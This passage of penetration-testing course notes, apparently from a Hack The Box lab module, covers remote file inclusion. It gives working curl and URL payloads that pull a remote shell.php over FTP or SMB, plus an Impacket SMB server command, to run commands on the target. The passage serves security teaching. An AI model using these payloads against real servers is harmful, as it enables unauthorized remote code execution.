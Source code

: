 
```shell-session
smoothment@htb[/htb]$ curl 'http://<SERVER_IP>:<PORT>/index.php?language=ftp://user:pass@localhost/shell.php&cmd=id'
...SNIP...
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## SMB

If the vulnerable web application is hosted on a Windows server (which we can tell from the server version in the HTTP response headers), then we do not need the`allow_url_include` setting to be enabled for RFI exploitation, as we can utilize the SMB protocol for the remote file inclusion. This is because Windows treats files on remote SMB servers as normal files, which can be referenced directly with a UNC path.

We can spin up an SMB server using`Impacket's smbserver.py`, which allows anonymous authentication by default, as follows:


```shell-session
smoothment@htb[/htb]$ impacket-smbserver -smb2support share $(pwd)
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Now, we can include our script by using a UNC path (e.g.`\\<OUR_IP>\share\shell.php`), and specify the command with (`&cmd=whoami`) as we did earlier:

```
http://<SERVER_IP>:<PORT>/index.php?language=\\<OUR_IP>\share\shell.php&cmd=whoami
```
 ![](https://academy.hackthebox.com/storage/modules/23/windows_rfi.png)

As we can see, this attack works in including our remote script, and we do not need any non-default settings to be enabled. However, we must note that this technique is`more likely to work if we were on the same network`, as accessing remote SMB servers over the internet may be disabled by default, depending on the Windows server configurations.

# Question
---
![Pasted image 20250218151542.png](../../../../IMAGES/Pasted%20image%2020250218151542.png)
